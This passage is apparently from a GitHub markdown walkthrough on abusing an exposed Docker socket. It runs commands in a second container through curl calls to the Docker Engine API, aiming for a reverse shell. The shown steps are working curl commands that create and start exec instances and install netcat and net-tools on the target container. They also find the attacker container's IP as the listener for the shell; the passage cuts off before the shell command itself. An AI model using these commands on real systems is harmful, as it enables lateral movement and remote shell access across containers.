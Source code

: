 **You can also use a single nested command instead of running two commands**

	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/$(curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/dcd2cca67d187fcbbd7fef316eda4b8d9b21fa06a5f63bba55b82371a8ab408b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["date"] }' | jq  '.[]' | tr -d '"')/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'
	
Now we know that we have the ability to run command on another container (C2), we can get the complete shell access of C2 by getting reverse shell, We would need netcat installed on C2 that can send us the reverse shell. We would need netcat on container C1 as well to catch the reverse shell.

5. Installing netcat on C1:

	`apt install -y netcat` (As simple as that)
	
6. Installing netcat on C2, Not that simple; Use the same curl technique to run command remotely:

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["apt","install","-y","netcat"] }'`
	
	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`


7. You can check if netcat has been installed properly

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["which","nc"] }'`

	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`

8. Similarly, net-tools can be installed, however not needed, just to check the IP address of C2. But we would need the IP address of C1 (to send the reverse shell).

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["apt","install","-y","net-tools"] }'`

	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`

9. Check IP address of C1:

	`ifconfig`
	
(Lets assume its 172.17.0.3)
